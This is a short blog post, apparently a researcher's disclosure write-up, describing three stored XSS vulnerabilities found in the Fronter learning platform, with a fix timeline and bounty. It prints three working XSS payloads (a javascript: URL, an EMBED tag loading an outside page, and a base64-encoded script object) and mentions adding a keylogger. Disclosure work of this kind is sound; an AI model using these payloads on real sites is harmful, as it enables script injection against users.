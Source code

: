 ```yaml
---
title: "Fronter XSS - 3 XSS in 1 Blogpost"
date: "2018-04-06"
category: blog
headerImage: true
tags: 
  - "fronter"
  - "fronter-vulnerabilities"
  - "fronter-vulnerability"
  - "stored-xss"
image: /assets/posts/fronter-xss-vulnerabilities.jpeg
---
```


Today I want to write about Fronter and Fronter XSS Vulnerabilies. Fronter is a learning platform from leading ICT provider, itslearning. Based on Nordic educational models, Fronter is a comprehensive teaching and learning solution used in schools and universities worldwide. As part of the itslearning portfolio, the Fronter solution has a full range of available support and professional services.

I found lots of XSS vulnerabilities on Itslearning as you know, Fronter was the goal after Itslearning.

## Here is the story of 3 Fronter XSS Vulnerabilities 

[![fronter XSS](images/payload-3.jpg)](https://mustafakemalcan.com/wp-content/uploads/2018/04/payload-3.jpg)

Our first payload is very typcial one; javascript:alert(1)

Second payload is powered by EMBED; <EMBED SRC="[https://mustafakemalcan.com/](https://t.co/pO3Wu3kLxh "https://mustafakemalcan.com/webcam.html") " width= 100% height= 100%></EMBED>

Last payload is more complicated than the other ones ; <object data="data:text/html;base64,PHNjcmlwdD5wcm9tcHQoMSk8L3NjcmlwdD4=">

I can add keylogger and make webcam request like before that [stored XSS Itslearning vulnerability](https://mustafakemalcan.com/itslearning-xss-part-2/).

UPDATE :

02/04/2018 - I contacted to Fronter Team.

12/04/2018 - Fronter closed vulnerabilities.

07/05/2018 - Fronter decided to give 1200$ bounty to me.
